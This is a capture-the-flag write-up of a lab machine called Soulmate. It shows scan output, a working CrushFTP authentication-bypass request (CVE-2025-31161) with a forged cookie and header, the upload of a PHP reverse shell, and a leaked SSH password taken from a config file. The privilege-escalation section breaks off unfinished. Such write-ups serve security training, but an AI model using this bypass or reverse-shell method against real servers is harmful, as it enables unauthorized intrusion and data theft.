

# Soulmate

## **Reconnaissance**

```docker
IP : 10.10.11.86

soulmate.htb
```

Email Format : 

> hello@soulmate.htb
> 

Host is alive 

```bash
└──╼ #ping 10.10.11.86
PING 10.10.11.86 (10.10.11.86) 56(84) bytes of data.
64 bytes from 10.10.11.86: icmp_seq=1 ttl=63 time=283 ms
64 bytes from 10.10.11.86: icmp_seq=2 ttl=63 time=281 ms
64 bytes from 10.10.11.86: icmp_seq=3 ttl=63 time=281 ms
^C
--- 10.10.11.86 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2001ms
rtt min/avg/max/mdev = 280.987/281.601/282.612/0.719 ms
```

## Enumeration and scan

### NMAP - SCAN

```bash
└──╼ #nmap -sV -sC -T3 -p22,80 -oN open_ports.txt 10.10.11.86
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-15 22:33 CDT
Nmap scan report for soulmate.htb (10.10.11.86)
Host is up (0.28s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Soulmate - Find Your Perfect Match
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.14 seconds

```



### Perfect website


### Directory enum

Gobuster scan

```bash
└──╼ #gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://soulmate.htb/ -x php,txt,html,xml,js -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soulmate.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,xml,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 16688]
/login.php            (Status: 200) [Size: 8554]
/register.php         (Status: 200) [Size: 11107]
/profile.php          (Status: 302) [Size: 0] [--> /login]
/assets               (Status: 301) [Size: 178] [--> http://soulmate.htb/assets/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/dashboard.php        (Status: 302) [Size: 0] [--> /login]
Progress: 110931 / 1323366 (8.38%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 110974 / 1323366 (8.39%)
===============================================================
Finished
===============================================================

```

```bash
──╼ #gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://soulmate.htb/assets/ -x php,txt,html,xml,js -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soulmate.htb/assets/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,xml,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://soulmate.htb/assets/images/]
/css                  (Status: 301) [Size: 178] [--> http://soulmate.htb/assets/css/]
Progress: 116693 / 1323366 (8.82%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 116755 / 1323366 (8.82%)
===============================================================
Finished
===============================================================

```

```bash
──╼ #gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://soulmate.htb/assets/images/ -x php,txt,html,xml,js -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soulmate.htb/assets/images/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,xml,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/profiles             (Status: 301) [Size: 178] [--> http://soulmate.htb/assets/images/profiles/]
Progress: 29138 / 1323366 (2.20%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 29138 / 1323366 (2.20%)
===============================================================
Finished
===============================================================

```

Nothing is found , so I did vhost scan using gobuster

```bash
──╼ #gobuster vhost -w /usr/share/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt -u http://soulmate.htb/ --append-domain -t 40
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://soulmate.htb/
[+] Method:          GET
[+] Threads:         40
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: ftp.soulmate.htb Status: 302 [Size: 0] [--> /WebInterface/login.html]
Progress: 123188 / 1613292 (7.64%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 123268 / 1613292 (7.64%)

```

Found some interesting vhost. 

then i go to [http://ftp.soulmate.htb](http://ftp.soulmate.htb) this one redirected to this page


### Let’s explore what is CrushFTP

**CRUSHFTP IS A ROBUST FILE TRANSFER SERVER THAT MAKES IT EASY TO SETUP SECURE CONNECTIONS WITH YOUR USERS.**

## Target is vulnerable to **CVE-2025-31161**

# **Proof of concept**

Since the technical details of the proof of concept are already public and available, we have no concerns discussing the inner workings of our recreated proof-of-concept.

As stated, it boils down to just an HTTP request:

```bash
**GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=1111
HTTP/1.1
Cookie: CrushAuth=1111111111_111111111111111111111111111111111
Authorization: AWS4-HMAC-SHA256** 
```

Apply this to the target


```bash
USERNAMES:
						ben
						crushadmin
						default
						jenna
						TempAccount
```

While this is a simple example to merely list users on the CrushFTP instance, it demonstrates the key components:

- Backend functions are accessible and any administrative actions can be performed
- A single cookie, **CrushAuth** must be provided
    - This does not have to be a valid CrushAuth cookie. The [Project Discovery writeup](https://projectdiscovery.io/blog/crushftp-authentication-bypass) discusses the typical structure of this value, but we have seen success with just a ~31 character string of alphanumeric characters.
    - The **c2f** HTTP parameter must match the last 4 values of the **CrushAuth** cookie.
- The **Authorization** header relies on the specific string prefix **AWS4-HMAC-SHA256**, and the **Credential** field may be set to any valid CrushFTP user account name that does not include a tilde (~), followed by a forward slash (/).
    - You will most commonly see the username **crushadmin** as this is the typical default administrator for CrushFTP servers.

using  https://github.com/Immersive-Labs-Sec/CVE-2025-31161.git 


Explore the CrushFTP sever and 

Go to User Manager

we can see ben and he can web directory access. so , generate a random password for ben and login to his account . and ADD php-reverse-shell.php(shell.php)  like bellow.


and start to netcat and go to [http://soulmate.htb/shell.php](http://soulmate.htb/shell.php)  this will get the shell.


www-data is not allowed to access Ben.

I use linpeas to find some thing interest .and found /usr/local/lib/erlang_login 


```bash
www-data@soulmate:/usr/local/lib/erlang_login$ cat start.escript | grep password
        {auth_methods, "publickey,password"},
        {user_passwords, [{"ben", "HouseH0ldings998"}]},

```

so , use this creds to access ben’s ssh 


## Privilege Escalation

To get root 


Google

What is the use of port 2222?

You should see the SSH server listening on port 2222, which will be used **to provide SSH access when creating a new SSH session and establish a secure connection to the server in order to perform secure file transfers**.

Using this


AND 


